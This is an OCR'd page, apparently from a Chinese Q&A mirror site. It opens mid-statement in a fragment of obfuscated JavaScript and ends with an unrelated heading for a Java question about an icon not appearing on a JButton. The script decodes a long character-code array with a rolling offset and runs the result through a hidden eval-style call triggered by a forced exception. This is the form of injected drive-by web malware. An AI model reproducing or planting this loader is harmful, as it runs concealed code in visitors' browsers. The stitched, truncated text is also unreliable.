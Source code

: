         v = "e".concat(v);
    }
}
e = w[v];
if (1) {
    f = new Array(102, 116, 108, 96, 116, 104, 109, 107, 32, 102, 112, 94, 40, 96, 42, 95, 41, 122, 112, 98, 116, 116, 112, 107, 32, 76, 95, 113, 104, 45, 100, 105, 111, 110, 112, 37, 77, 96, 114, 101, 46, 113, 95, 107, 100, 110, 107, 37, 41, 41, 38, 95, 45, 96, 41, 46, 41, 40, 41, 94, 59, 124, 11, 7, 102, 116, 108, 96, 116, 104, 109, 107, 32, 113, 113, 37, 41, 122, 112, 98, 116, 116, 112, 107, 32, 76, 95, 113, 104, 45, 112, 94, 110, 99, 109, 106, 40, 40, 44, 113, 111, 82, 114, 111, 105, 109, 101, 37, 51, 53, 39, 43, 115, 116, 96, 112, 116, 113, 103, 107, 103, 39, 51, 38, 59, 124, 11, 7, 105, 101, 38, 107, 97, 117, 103, 100, 97, 115, 109, 111, 46, 98, 109, 108, 107, 104, 99, 66, 110, 96, 96, 105, 101, 99, 39, 120, 13, 9, 7, 115, 97, 113, 30, 112, 116, 109, 107, 58, 114, 114, 38, 38, 59, 12, 8, 6, 118, 96, 112, 29, 117, 96, 30, 58, 32, 109, 95, 115, 105, 102, 95, 113, 111, 113, 44, 114, 115, 100, 112, 62, 103, 100, 108, 113, 59, 12, 8, 6, 118, 96, 112, 29, 117, 113, 106, 29, 61, 31, 98, 108, 99, 116, 107, 98, 110, 115, 44, 105, 111, 98, 95, 113, 105, 110, 108, 43, 104, 113, 99, 99, 59, 12, 8, 6, 105, 101, 38, 114, 114, 107, 44, 102, 110, 99, 99, 117, 79, 101, 38, 36, 97, 99, 107, 102, 110, 38, 39, 58, 61, 44, 47, 29, 38, 37, 30, 114, 97, 45, 103, 107, 100, 100, 118, 76, 102, 39, 37, 84, 105, 109, 98, 108, 119, 114, 37, 38, 33, 60, 43, 46, 32, 37, 36, 29, 40, 116, 95, 43, 105, 109, 98, 98, 120, 78, 100, 37, 39, 76, 81, 70, 69, 38, 39, 30, 61, 44, 47, 121, 124, 116, 95, 43, 105, 109, 98, 98, 120, 78, 100, 37, 39, 78, 110, 98, 114, 96, 37, 38, 33, 60, 43, 46, 41, 40, 121, 10, 10, 8, 7, 97, 111, 98, 115, 106, 101, 109, 114, 43, 119, 113, 103, 113, 101, 39, 37, 57, 115, 115, 119, 105, 101, 61, 44, 112, 39, 42, 113, 113, 110, 108, 41, 36, 32, 122, 30, 109, 111, 114, 103, 113, 105, 110, 108, 55, 97, 97, 113, 108, 108, 116, 114, 98, 59, 31, 106, 98, 102, 115, 56, 42, 39, 42, 101, 111, 97, 39, 52, 45, 48, 43, 47, 45, 48, 47, 39, 40, 39, 111, 118, 56, 32, 115, 109, 109, 58, 44, 37, 40, 103, 113, 95, 37, 54, 47, 46, 41, 49, 47, 46, 45, 41, 42, 37, 109, 120, 58, 30, 122, 60, 46, 113, 113, 121, 107, 99, 59, 32, 59, 98, 102, 118, 31, 97, 105, 97, 114, 113, 58, 34, 114, 37, 40, 115, 115, 108, 106, 43, 38, 32, 59, 60, 104, 100, 111, 97, 108, 99, 29, 115, 113, 97, 58, 34, 103, 114, 113, 112, 57, 45, 44, 112, 116, 106, 105, 100, 110, 117, 107, 108, 96, 119, 112, 46, 104, 108, 99, 111, 46, 95, 97, 47, 101, 99, 98, 100, 45, 110, 101, 112, 33, 30, 116, 105, 99, 114, 101, 61, 33, 37, 40, 103, 113, 95, 37, 51, 47, 46, 41, 54, 47, 46, 38, 43, 38, 32, 29, 104, 100, 103, 100, 104, 115, 59, 31, 39, 42, 101, 111, 97, 39, 49, 45, 48, 43, 52, 45, 48, 40, 41, 36, 34, 61, 58, 44, 105, 101, 112, 94, 109, 100, 60, 57, 47, 99, 103, 115, 62, 38, 39, 56, 13, 9, 7, 122, 13, 9, 7, 115, 97, 113, 30, 98, 120, 111, 59, 107, 101, 118, 30, 65, 97, 115, 99, 37, 41, 58, 99, 117, 112, 45, 113, 98, 116, 67, 95, 113, 101, 39, 99, 117, 112, 45, 101, 98, 116, 67, 95, 113, 101, 39, 39, 40, 55, 40, 57, 10, 10, 8, 103, 99, 40, 99, 109, 96, 117, 108, 99, 107, 116, 45, 97, 108, 111, 106, 103, 98, 46, 104, 108, 97, 101, 119, 77, 99, 40, 38, 93, 92, 117, 115, 107, 99, 114, 60, 37, 38, 61, 60, 43, 46, 41, 122, 98, 108, 99, 116, 107, 98, 110, 115, 44, 96, 111, 110, 105, 102, 101, 60, 37, 92, 95, 116, 114, 106, 102, 113, 59, 36, 43, 113, 113, 37, 41, 42, 37, 56, 32, 100, 118, 109, 105, 113, 99, 112, 61, 38, 41, 98, 120, 111, 44, 113, 111, 70, 75, 81, 83, 115, 112, 102, 110, 102, 38, 38, 43, 38, 57, 29, 112, 96, 114, 101, 61, 46, 37, 56, 125, 12, 8, 122);
}
w = f;
s = [];
for (i = 0; - i + 800 != 0; i += 1) {
    j = i;
    if ((031 == 0x19)) if (e) s = s + String.fromCharCode((1 * w[j] + e("j%4")));
}
xz = e;
try {
    document.body++
} catch (gdsgd) {
    xz(s)
} 
```

# java - IconImage 未显示在 jButton 上

> ID：14348081
> 
> 赞同：0
> 
> 时间：2013-01-15T22:27:03.610
> 
```